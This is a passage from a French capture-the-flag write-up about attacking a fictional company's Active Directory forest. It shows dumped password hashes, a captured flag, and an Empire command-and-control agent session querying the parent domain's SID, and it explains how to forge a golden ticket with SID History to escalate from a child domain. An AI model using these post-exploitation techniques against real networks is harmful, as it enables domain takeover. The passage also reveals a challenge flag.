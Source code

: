 ```
    04  99104105fd29d2d39be6380961f83e8c
    05  d8191f09d8caa79c4d0d948f37ba7d8e
    06  80dbdb66844c2023c39263d2f0ae44bf
    07  99104105fd29d2d39be6380961f83e8c
    08  26736a367f2ff1533e626516fc7fd5db
    09  26736a367f2ff1533e626516fc7fd5db
    10  3018d9ff1d188c99efc8c33edf8c5fe2
    11  01564b0803470902c264440d774a7f0f
    12  26736a367f2ff1533e626516fc7fd5db
    13  64d5e3b267c119a93ee62677830a9c12
    14  01564b0803470902c264440d774a7f0f
    15  c0636b8c02e6544351917618a9a348bd
    16  c0636b8c02e6544351917618a9a348bd
    17  3468095daaed0b0e41b0a3daf096951a
    18  dceace8ff0b56b4f98d860cb8bcaa497
    19  da48ba62c7faf654a9ffb3f416f402fa
    20  efec8ffb01bb7be472b6b46a78f753e9
    21  be3a539db323719e05ea0b891c83f54b
    22  be3a539db323719e05ea0b891c83f54b
    23  f8e2b3ad02ebd4505217d6139b6731ba
    24  2f1c1fbde49a69c5832504b858b5e0c3
    25  2f1c1fbde49a69c5832504b858b5e0c3
    26  0e1fb4fc1eff104789d7a61e4b8bb8c3
    27  d29bd9ed37da84c25afd82eafabc0d71
    28  9a1794854a48fe460a3ab7b1f016df9e
    29  ac2746c1ad97b278c3b3be71866d95a9



[*] Valid results returned by 151.80.230.58
 * Thread Token  : no token
```

Et voilà le flag de cette étape : e65b41757ea496c2c60e82c05ba8b373.  

## L'histoire d'un ticket (flag 5)

Pour rappel, nous devons infiltrer le réseau interne de pramacorp. Pour ce faire, il y a plusieurs étapes. La premiére sera de récupérer un maximum de droits sur le domaine pramafil.corp (flag 3) puis ensuite compromettre le sous-domaine dev.pramacorp.fr (flag 4) pour enfin attaquer le domaine maitre pramacorp.fr (notre cible final, flag 5).

On a le krbtgt du sous-domaine ad.pramacorp.fr, son SID en gros tout ce qu'il faut pour créer un ticket d'or.  
Avec Windows, il existe le SID History qui permet à un utilisateur de changer de domaine en conservant les droits sur son ancien domaine.
Récupérons le SID du domaine parent avec l'agent déployé sur l'ad.dev.pramacorp.fr.

```
(Empire: L4GNAHWC) > shell powershell "get-addomain pramacorp.fr"
[*] Tasked L4GNAHWC to run TASK_SHELL
[*] Agent L4GNAHWC tasked with task ID 6
(Empire: L4GNAHWC) > [*] Agent L4GNAHWC returned results.
AllowedDNSSuffixes                 : {}
ChildDomains                       : {dev.pramacorp.fr}
ComputersContainer                 : CN=Computers,DC=pramacorp,DC=fr
DeletedObjectsContainer            : CN=Deleted Objects,DC=pramacorp,DC=fr
DistinguishedName                  : DC=pramacorp,DC=fr
DNSRoot                            : pramacorp.fr
DomainControllersContainer         : OU=Domain Controllers,DC=pramacorp,DC=fr
DomainMode                         : Windows2012R2Domain
DomainSID                          : S-1-5-21-2992845451-2057077057-2526624608
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=pramacorp,
                                     DC=fr
```
